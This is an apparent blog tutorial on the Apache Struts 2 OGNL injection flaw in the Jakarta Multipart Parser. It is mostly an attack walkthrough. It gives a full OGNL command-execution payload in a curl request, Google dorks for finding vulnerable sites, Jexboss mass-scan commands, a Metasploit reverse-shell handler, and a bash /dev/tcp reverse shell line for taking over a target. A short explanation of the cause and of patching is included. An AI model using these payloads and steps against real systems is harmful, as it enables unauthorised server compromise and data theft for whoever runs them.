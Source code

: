 ## Introduction

In versions of **Apache Struts 2** prior to 2.3.32 and 2.5.10.1, there is a flaw in the **Jakarta Multipart Parser**. This flaw pertains to improper exception handling and generation of error messages during attempts to upload files. As a result, remote attackers can exploit this vulnerability to run arbitrary commands by manipulating the "`Content-Type`", "`Content-Disposition`", or "`Content-Length`" HTTP headers.

* * *

## Anatomy Of The Attack

### Apache Struts Vulnerability

Struts are vulnerable to remote command injection attacks through incorrectly parsing an attacker’s invalid "Content-Type HTTP header". The Struts vulnerability allows these commands to be executed under the privileges of the Web server.

If the "Content-Type" value isn’t valid, that is, it does not match an expected valid type, an exception is thrown that is then used to display an error message to a user. In this case, we can set the "Content-Type" to an OGNL expression such as:

```html
ContentType: ${(#_='multipart/formdata')}...
```

#### Why Does the Vuln Occur?

The vulnerability occurs because the Content-Type is not escaped after the error, and is then used by **LocalizedTextUtil.findText()** function to build the error message. This function will interpret the supplied message, and anything within **${…}** will be treated as an Object Graph Navigation Library (OGNL) expression and evaluated as such. The attacker can leverage these conditions to execute OGNL expressions that in turn execute system commands.

OGNL is also an expressive and extensive language in and of itself. It’s a very powerful and reliable tool for the attacker. Many core JAVA functions can be exposed, for example, **java.core.ProcessBuilder()** allows an external program to be run on the system.

Exploitation is also further facilitated by the ability to receive information back from the server on the status and output of the commands that are executed by the webserver. No additional communication channel is needed, which aids in minimizing detection and bypassing existing firewall rules.

**HTTP REQUEST WITH CURL CONTAINING CONTENT-TYPE HEADER WITH OGNL EXPRESSION**

```html
curl https://example.com:8080/welcome.action -H "Content-Type:
%{(#_="multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS)
.(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container'])
.(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class))
.(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear())
.(#context.setMemberAccess(#dm)))).(#eps=#container.toString()).(#cmds=({'/bin/echo', #eps}))
.(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start())
.(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream()))
.(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush()))}
com.opensymphony.xwork2.inject.ContainerImpl@d0d2b00
```

The **curl** command shown above demonstrates whether the server is vulnerable or not by sending an http request with an embedded OGNL expression in the Content-Type header. The OGNL expression sets default access rights to the members of the **OgnlContext JAVA object**, which represents the execution context of the expression.

#### How Can This Vulnerability Be Addressed?

The risks related to this type of attack can be lessened by utilizing web application firewalls like **mod\_security**. This is achievable if rules are configured for valid content types or if OGNL expressions are added to a blacklist. However, the most optimal solution is undeniably updating **Struts2**.

* * *

### Google Dork

There is no doubt that there are thousand and one ways to find vulnerable targets for this type of attack. To cut short, we are going to use a non-exhaustive list of Google Dork to demonstrate how it’s easy for a blackhat to build a list of potentially vulnerable websites.

```html
intitle:"Struts problem report" intext:"Struts has detected an Unhandled"
intitle:"Struts Problem Report" intext:"development mode is enabled."
filetype:action
filetype:do
filetype:java
filetype:out
filetype:bat
filetype:seam
filetype:sh
filetype:bson
filetype:el
filetype:pm
inurl:login.action
inurl:login.do
inurl:login.java
inurl:index.action
inurl:index.do
inurl:index.java
```

* * *

### Vulnerability Analysis

To detect if a host is vulnerable to the **Struts2** exploit, we can use **Jexboss**, this tool made in Python is definitively doing a great job and can help you to save precious time. The tool and exploits were developed and tested for JBoss Application Server versions v3, v4, v5, and v6. JSF, Seam Framework, RMI over HTTP, Jenkins CLI RCE (CVE-2015-5317), Remote JMX (CVE-2016-3427, CVE-2016-8735). For more information, you can visit the [Github](https://github.com/joaomatosf/jexboss) page of the author.

#### Requirements

- Python >= 2.7.x
- urllib3
- ipaddress

#### Install Jexboss on Ubuntu/Debian

```html
git clone "https://github.com/joaomatosf/jexboss.git"
cd jexboss
pip install -r requires.txt
python jexboss.py -h
```

Or

```html
wget "https://github.com/joaomatosf/jexboss/archive/master.zip"
unzip master.zip
cd jexboss-master
pip install -r requires.txt
python jexboss.py -h
```

#### Install Jexboss on Windows

If you are using Windows, you can use the Git Bash to run the JexBoss.

- Download and install Python
- Download and install Git for Windows
- After installing, run the Git for Windows and type the following commands

```html
PATH=$PATH:C:\Python27\
PATH=$PATH:C:\Python27\Scripts
git clone https://github.com/joaomatosf/jexboss.git
cd jexboss
pip install -r requires.txt
python jexboss.py -h
```

* * *

### How To Use Jexboss

#### Scan single host using Jexboss

```html
sudo python jexboss.py -host http://target_host:8080
```

#### Scan multiple hosts using Jexboss

```html
sudo python jexboss.py -mode -file-scan -file /path/file/urls.txt -out /path/output/results.log --struts2
```

#### Create MSF Session

To open a session from our targeted website, we will need to create an exploit multi-handler with **Metasploit**. This can be done very quickly using the below commands.

```html
msfconsole
msf > use exploit/multi/handler
msf exploit(multi/handler) > set "YOUR-IP-ADDRESS"
msf exploit(multi/handler) > set "YOUR-LOCAL-PORT"
msf exploit(multi/handler) > set PAYLOAD linux/x86/shell/reverse_tcp
msf exploit(multi/handler) > show options
```

On the above example, we are using a Linux X86 Shell Reverse TCP payload, of course the type of payload shall be different if we are targeting a Windows machine.

* * *

### Exploit The Target

We are now going to send our exploit to create a reverse shell using **Jexboss** and forward the traffic to the MSF session using TCP protocol.

#### Jexboss Commands

```html
sudo python jexboss.py -host http://example.com/login.action --struts2
```

If **Jexboss** can inject his payload, you will need to enter the below command to establish a connection with **Metasploit**.

#### Jexboss Console

Replace `MACHINE-IP-ADDRESS` and `MACHINE-PORT` with your own parameters


```html
Shell> /bin/bash -i > /dev/tcp/MACHINE-IP-ADDRESS/MACHINE-PORT 0>&1 2>&1
```

#### Metasploit Console

```html
msf exploit(multi/handler) > exploit
```

You are done! If the targeted website and/or server is vulnerable to **Struts2** exploit, a session will be created in your **Metasploit** allowing you to take over the targeted machine. For more information about this tutorial and to see a live demonstration of this type of attack, I encourage you to watch the video below.

* * *

## Conclusion

The security flaw in Apache Struts 2 versions 2.3.x before 2.3.32 and 2.5.x before 2.5.10.1 poses a significant risk. Attackers can exploit incorrect exception handling and error-message generation during file-upload attempts to execute arbitrary code remotely. Organizations should promptly update their systems to mitigate this vulnerability and protect against potential attacks.

Stay vigilant and prioritize security measures! If you have any further questions or need additional information, feel free to ask!